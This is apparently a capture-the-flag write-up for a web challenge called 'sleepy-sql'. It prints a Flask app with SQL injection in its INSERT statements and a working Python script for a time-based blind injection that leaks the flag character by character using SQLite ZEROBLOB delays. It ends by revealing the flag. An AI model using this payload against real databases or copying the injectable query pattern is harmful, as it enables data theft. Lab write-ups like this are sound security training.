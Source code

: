 # sleepy-sql

[library.m0unt41n.ch/challenges/sleepy-sql](https://library.m0unt41n.ch/challenges/sleepy-sql) ![](../../resources/web.svg) ![](../../resources/easy.svg) 

# TL;DR

We get a Web app, with no obvious direct attack vector. We work out a way to create side-effect attack,
by making SQLite conditionally slow, depending on the flag contents.

# Code

A simple Flask app, where _"you can leave us a message"_:

```python
from flask import Flask, request, render_template
import sqlite3
import time
from os import environ

FLAG = environ.get("FLAG")
app = Flask(__name__)

# Initialize the database and create the table if it doesn't exist
def init_db():
    conn = sqlite3.connect('messages.db')
    c = conn.cursor()
    c.execute("""
        CREATE TABLE IF NOT EXISTS messages (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            name TEXT,
            message TEXT
        )
    """)
    
    c.execute(f"INSERT INTO messages (name, message) VALUES ('admin', '{FLAG}')")
    conn.commit()
    conn.close()

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        name = request.form.get('name')
        message = request.form.get('message')
        print(message)
        conn = sqlite3.connect('messages.db')
        c = conn.cursor()
        c.execute(f"INSERT INTO messages (name, message) VALUES ('{name}', '{message}')")
        conn.commit()

        conn.close()
        return "Message saved!"

    return render_template("index.html")

if __name__ == '__main__':
    init_db()
    app.run(host='0.0.0.0', port=5000, threaded=True)
```

# Analysis

It's not so obvious actually:

*   Yes, there is a SQL injection for the `INSERT`
*   But no way to run a `SELECT` (SQLite protests when we try a simple `' ; SELECT ...`)
*   The program is trivial otherwise, and there doesn't seem to be a way to exfiltrate the data

But, interestingly, on the SHC chat, there was a message that *"this challenge has been updated with deployment details"*.
Specifically:

```yaml
services:
  my_service:
    deploy:
      resources:
        limits:
          cpus: '0.05'
          memory: '500M'
```

So, we just need to find a way to make SQLite query "slow", conditionally on something. Like subsequent flag characters.
In MySQL, within `INSERT` statement, that can be achieved with `CASE WHEN` construct
([documentation](https://www.sqlitetutorial.net/sqlite-case/)). And the "slow" operation could be
just inserting a large-enough blob.

Then, we iterate over a) positions in the flag b) possible characters to put on that position - and
make the `INSERT` take different amounts of time, depending on whether the character was correct.

With some experimenting, I found that, for remote instance, using `ZEROBLOB(10000000)` provides more than
a second of additional delay. We can construct the timing attack now:

# Getting the flag:

```python
import requests
import time

URL = "https://fb8dfa2c-b7a7-4156-bdbb-e0d92adf50b6.library.m0unt41n.ch:1337"
CHARSET="abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ{}!#$%&()+,-./:;<=>@[]^`|~"
flag = ''

while not flag.endswith("}"):
    charFound = False
    for c in CHARSET:
        print("Trying: "+flag+c)
        pos = len(flag) + 1  # SUBSTR indices start from 1!!!
        params = {"name": "me", "message": "' || (CASE WHEN (SELECT SUBSTR(message,"+str(pos)+",1) FROM messages WHERE name='admin')='"+c+"' THEN ZEROBLOB(10000000) ELSE 'yes' END) || '"}
        t = time.time()
        html = requests.post(URL, data=params).text;
        t = time.time() - t
        if t > 1.0:
            flag += c
            charFound = True
            break
    if not charFound:
        break
```

---

## `SCD{tw1nkl3_tw1nkl3_l1ttl3_star}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
